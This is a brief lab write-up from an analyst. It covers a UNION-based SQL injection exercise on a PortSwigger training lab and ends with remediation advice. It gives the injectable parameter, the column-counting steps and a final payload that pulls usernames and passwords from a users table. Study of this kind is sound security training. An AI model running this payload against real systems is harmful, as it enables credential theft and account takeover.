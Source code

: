 **Date / Analyst:** 2025-09-03 — Chris Araque  
**Environment:** PortSwigger WSA — UNION-based SQL injection

## TL;DR

- UNION-based SQLi allows extracting data from another table.
- Retrieved credentials (e.g., administrator) by aligning column count and selecting from users.
- Fix: parameterized queries, least-priv DB user, generic errors.

## Scope & Target

- Endpoint/Param: `/filter?category=`
- Quote/comment used: `'` with `--+`
- Column count (N): **2**
- Visible text column(s): Both columns (1 and 2) displayed text successfully
- Final payload used: `' UNION SELECT username,password FROM users--+`

## Steps (summary)

1. ' ORDER BY N to find column count
2. ' UNION SELECT NULL... to match N columns
3. Find text column(s) with 'X'
4. ' UNION SELECT username,password FROM users--+
5. Capture credentials/evidence

## Evidence

- Screenshot: ![Union Leak](../../evidence/ps-sqli-union/union-leak.png)
- Request: [union-request.txt](../../evidence/ps-sqli-union/union-request.txt)

## Impact

Credentials disclosure; account takeover; lateral movement.

## Recommended Fix

- Parameterized queries (no string concatenation)
- Least-privileged DB user; segregated roles
- Generic error handling; WAF rules for UNION patterns (temporary)
